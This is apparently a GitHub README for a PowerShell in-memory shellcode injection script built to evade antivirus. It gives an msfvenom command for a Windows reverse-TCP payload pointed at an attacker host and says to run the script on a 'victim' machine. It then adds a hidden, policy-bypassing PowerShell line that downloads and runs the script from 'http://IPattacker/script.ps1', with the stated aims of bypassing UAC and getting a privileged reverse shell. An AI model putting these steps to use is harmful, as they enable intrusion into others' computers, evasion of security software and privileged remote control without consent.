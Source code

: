 # AntiVirus-bypass-PowerShell-In-Memory-Injection
Script made for bypassing antivirus using Powershell Injection method. Place your shellcode from msfvenom on line 15


<h3>Example of the payload needed:</h3>

```
msfvenom -p windows/shell/reverse_tcp LHOST=IPkali LPORT=4444 -f powershell
```

<h3>Then we copy the payload like this:</h3>

![Captura de pantalla 2023-02-27 210003.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/screenshots/Captura%20de%20pantalla%202023-02-27%20210003.jpg)

<h3>And paste the payload to the 15th line of the .ps1 file:</h3>

![Captura de pantalla 2023-02-27 210359.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/screenshots/Captura%20de%20pantalla%202023-02-27%20210359.jpg)

<h3>Save the final PowerShell script and run it within the victim Windows machine.</h3>

<h3>We can combine this script with the use of the following command in order to download and inject the script as an Administrator user bypassing UAC, obtaining a privileged reverse shell:</h3>

First of all you have to setup a python web server to host the payload, change the attacker IP and the PowerShell script name.

```
python3 -m http.server 80
```

Then you can use this command within the Windows target system:

```
$RegValue = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep Bypass -windowstyle hidden -nop iex (New-Object Net.WebClient).DownloadString('http://IPattacker/script.ps1'); Invoke-Function"
```
